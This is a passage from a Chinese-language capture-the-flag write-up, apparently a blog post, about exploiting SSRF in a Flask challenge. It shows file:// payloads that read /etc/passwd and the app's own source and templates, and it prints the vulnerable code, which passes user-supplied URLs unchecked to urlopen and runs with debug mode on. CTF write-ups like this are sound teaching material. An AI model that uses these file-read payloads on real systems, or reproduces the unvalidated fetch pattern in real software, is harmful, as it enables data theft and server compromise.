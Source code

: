 只有一个输入网址的框，感觉像是SSRF，但构造了下文件协议`file:///etc/passwd`也可以读取。猜测会使用gopher协议？  

点击下面的链接，发现报错信息。

```python
File "/app/QWQ.py", line 24, in contact

       except:
                return '发生错误了QWQ'
@app.route('/contact')

def contact():
        return render_template('contact.html')

if __name__ == '__main__':
  app.run(host="0.0.0.0", port=9999, debug=True)
```

正好利用刚才的文件协议读取py文件：`file:///app/QWQ.py`，得到结果:

```python
from flask import *
import urllib 
app = Flask(__name__) 

def req_url(uri): 
    with urllib.request.urlopen(uri) as res:
        return res.read() 

@app.route('/') 
def index(): 
    return render_template('index.html') 

@app.route('/get_content', methods=['POST']) 
def get_content(): 
    request_url = request.form['url'] 
    try: 
        return req_url(request_url) 
    except: 
        return '发生错误了QWQ' 

@app.route('/contact') 
def contact(): 
    return render_template('contact.html') 

if __name__ == '__main__': 
    app.run(host="0.0.0.0", port=9999, debug=True) 
```

看到文件渲染了index.html，contact.html这两个文件。根据Flask的编程经验，模板一般会放在`templates`文件夹中单独管理。所以使用file协议分别读取源代码：

`file:///app/templates/index.html`  

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>(ฅ>ω<*ฅ)</title>
</head>
<body>
<center>
<h3>这里可以显示你想要的内容 :)</h3>
<img src="{{ url_for('static',filename='images/1.gif') }}" alt="">
<form action="/get_content" method="post" >
        <p>请输入网址<input name="url"></p>
        <p><button type="submit"> 提交</button></p>
</form>
```